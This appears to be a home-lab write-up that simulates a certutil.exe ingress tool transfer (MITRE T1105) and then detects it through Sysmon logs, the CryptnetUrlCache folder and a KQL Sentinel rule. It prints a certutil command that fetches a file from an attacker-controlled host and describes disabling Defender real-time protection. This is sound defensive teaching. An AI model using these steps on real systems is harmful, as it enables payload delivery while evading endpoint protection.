




#HomeLab Simulated Attack & Detection - LoLBin Ingress Tool Transfer, Technique T1105#

##Summary##

Utilising certutil.exe, I created a LoLBin (living off the land binary) Ingress Tool Transfer within my isolated home lab environment. Adversaries routinely abuse tools like CertUtil as they are legit Microsoft tools and are trusted by the OS and bypass allow lists.
To ensure this payload was delivered successfully, I disabled MS defender real time protection on the 'Victim' device to emulate threat actor actions after gaining initial access and prevent defender from blocking the payload retrieval.

##Payload Staging and Delivery##

The first step was creating the 'malicious' payload. As this is purely for simulation and detection purposes, this payload is simply a .txt file containing plaintext of "this is a simulated payload".
I then hosted a python HTTP server on port 8000 and ran a curl command to ensure the file can be successfully retrieved.

Following this, I ran the following command on the Victim machine to connect to the HTTP server and retrieve/deliver the payload :
certutil.exe -urlcache -split -f http://10.10.10.30:8000/safetycheck.txt C:\Users\Public\safetycheck.txt

The delivery was successful as a 200 HTTP response was returned and confirmed the payload was delivered to C:\Users\Public location.

<b>📷 Click to Payload Staging screenshot</b>

<b>📷 Click to Payload Delivery screenshot</b>

##Detection and Forensic Analysis##

Now assuming the role of a Security Analyst or Digital Forensics Analyst, we dug into the Sysmon event logs within Event Viewer on the Victim device. 
In the screenshot 'SysmonEvent', you can see an event with event ID 1 (Process creation) which shows the exact command line that was executed.

<b>📷 Click to SysmonEvent screenshot</b>

Even if the adversary was to delete the payload immediately, Windows stores metadata within the hidden system folder CryptnetUrlCache.
To reveal this forensic evidence, we queried the directory using the following command :
cd %USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\MetaData
dir /a /od

Using this information, I then took the most recent file generated and opened it within Notepad to reveal the raw data and host footprint.
As shown in the screenshot 'StagingURL', the URL string of http://10.10.10.30:8000/safetycheck.txt is visible and shows us where the payload was delivered from. 
In a live investigation, we could dig into OSINT and other intelligence surrounding the web server. But we know 10.10.10.30 is our Kali Linux machine IP address. 

<b>📷 Click to StagingURL screenshot</b>

To operationalise these findings, we could implement an analytic rule within Sentinel with the following KQL :
DeviceProcessEvents
| where InitiatingProcessFileName =~ "certutil.exe" or ProcessCommandLine has "certutil"
| where ProcessCommandLine has_any("-urlcache", "-split", "-f") and ProcessCommandLine has "http"
| project TimeGenerated, DeviceName, AccountName, ProcessCommandLine, FolderPath
| sort by TimeGenerated desc
